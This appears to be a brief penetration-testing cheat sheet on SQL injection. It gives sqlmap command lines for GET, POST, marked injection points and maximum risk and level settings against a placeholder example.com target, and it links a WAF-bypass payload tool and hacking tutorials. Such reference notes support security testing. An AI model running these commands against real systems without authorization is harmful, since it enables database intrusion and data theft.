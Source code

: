 # SQLi

## sqlmap

- https://github.com/sqlmapproject/sqlmap

```
# request in txt
sqlmap -r search-test.txt -p parameter

# post
sqlmap -o -u "http://example.com/index.php?id=1" --data="username=admin&password=pass&submit=+Login+" --method=POST
# get
sqlmap -u "http://example.com/index.php?id=1"

# with point of injection (*)
sqlmap -u "http://example.com/index.php?id=1*-133&debug=true"

# risk
sqlmap -u "http://example.com/index.php?id=1" --risk=3 --level=5
```

## Temper

The ability to create payloads that can bypass waf

- https://github.com/m4ll0k/Atlas


## Articles

| URL | 
| --- |
| https://www.binarytides.com/sqlmap-hacking-tutorial/ |
|https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html|
